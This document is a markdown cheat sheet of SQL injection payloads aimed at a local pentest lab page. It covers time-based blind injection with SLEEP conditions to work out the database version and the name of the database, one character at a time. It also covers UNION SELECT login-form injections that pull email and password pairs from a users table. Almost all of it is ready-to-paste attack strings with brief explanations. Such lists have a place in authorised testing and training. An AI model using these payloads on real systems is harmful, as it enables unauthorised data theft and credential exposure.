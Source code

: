 

## Time-based Blind SQL Injection

Time-based Blind SQL Injection is a technique where the attacker determines if a SQL query is true or false based on the time it takes for the server to respond. This method is useful when the application does not return errors or results but can be made to delay its response based on the outcome of the SQL query.

### Testing URL Parameters

#### Example URL
`http://192.168.1.2/webpentest/sqli/blind-injection-time-based.php`


#### SQL Injection Payloads

1. **Delay Execution**

   ```sql
   1' AND (SELECT SLEEP(10)) --+
   ```

   This query introduces a 10-second delay if executed, which helps to verify the presence of a SQL Injection vulnerability.

2. **Version-Based Delay**

   ```sql
   1' AND (SELECT IF((SELECT VERSION()) LIKE "8%", SLEEP(10), NULL)) --+
   ```

   This checks if the database version starts with "8". If true, it delays the response.

3. **Database Length Check**

   ```sql
   1' AND (SELECT IF((SELECT LENGTH(DATABASE()) = 9), SLEEP(10), NULL)) --+
   ```

   This payload delays the response if the length of the database name is exactly 9 characters.

4. **Database Length Comparison**

   ```sql
   1' AND (SELECT IF((SELECT LENGTH(DATABASE()) > 8), SLEEP(10), NULL)) --+
  
   1' AND (SELECT IF((SELECT LENGTH(DATABASE()) < 10), SLEEP(10), NULL)) --+
   ```

   These queries check if the length of the database name is greater than 8 or less than 10, respectively.

5. **Database Character Check**

   ```sql
   1' AND (SELECT IF((SELECT ASCII(SUBSTR(DATABASE(),1,1)) = 97), SLEEP(10), NULL)) --+
   ```

   This verifies if the ASCII value of the first character of the database name is 97 ('a').

6. **Database Name Check**

   ```sql
   1' AND (SELECT IF((SELECT DATABASE()) = "employe_db", SLEEP(10), NULL)) --+
   ```

   This checks if the database name matches "employe_db".

### Testing POST Parameters

#### Example URL
`http://192.168.1.2/webpentest/sqli/blind-injection-time-based-post.php`

#### SQL Injection Payloads

- **Delay Execution**

  ```sql
  1' AND (SELECT SLEEP(10)) --
  ```

- **Version-Based Delay**

  ```sql
  1' AND (SELECT IF((SELECT VERSION()) LIKE "8%", SLEEP(10), NULL)) --
  ```

- **Database Length Check**

  ```sql
  1' AND (SELECT IF((SELECT LENGTH(DATABASE()) = 9), SLEEP(10), NULL)) --
  ```

- **Database Length Comparison**

  ```sql
  1' AND (SELECT IF((SELECT LENGTH(DATABASE()) > 8), SLEEP(10), NULL)) --
 
  1' AND (SELECT IF((SELECT LENGTH(DATABASE()) < 10), SLEEP(10), NULL)) --
  ```

- **Database Character Check**

  ```sql
  1' AND (SELECT IF((SELECT ASCII(SUBSTR(DATABASE(),1,1)) = 97), SLEEP(10), NULL)) --
  ```

- **Database Name Check**

  ```sql
  1' AND (SELECT IF((SELECT DATABASE()) = "employe_db", SLEEP(10), NULL)) --
  ```

### Testing Login Queries

You can test various SQL injection techniques on login forms by injecting payloads that use different quoting mechanisms.

#### Single Quote (`'`)

- **Basic Payload**

  ```sql
  1' --
  ```

- **Order By**

  ```sql
  1' ORDER BY 2 --
  ```

- **Union Select**

  ```sql
  1' UNION ALL SELECT current_user(), 2 --
  
  1' UNION ALL SELECT 1, database() --
  
  1' UNION ALL SELECT current_user(), database() --
  
  1' UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  ```

#### Double Quote (`"`)

- **Basic Payload**

  ```sql
  1" --
  ```

- **Order By**

  ```sql
  1" ORDER BY 2 --
  ```

- **Union Select**

  ```sql
  1" UNION ALL SELECT current_user(), 2 --
  
  1" UNION ALL SELECT 1, database() --
  
  1" UNION ALL SELECT current_user(), database() --
  
  1" UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  ```

#### Parentheses (`'` and `"`)

- **Basic Payload**

  ```sql
  1') --
  
  1") --
  ```

- **Order By**

  ```sql
  1') ORDER BY 2 --
  
  1") ORDER BY 2 --
  ```

- **Union Select**

  ```sql
  1') UNION ALL SELECT current_user(), 2 --
  
  1") UNION ALL SELECT current_user(), 2 --
  
  1') UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  
  1") UNION ALL SELECT email, password FROM users LIMIT 0, 1 --
  ```

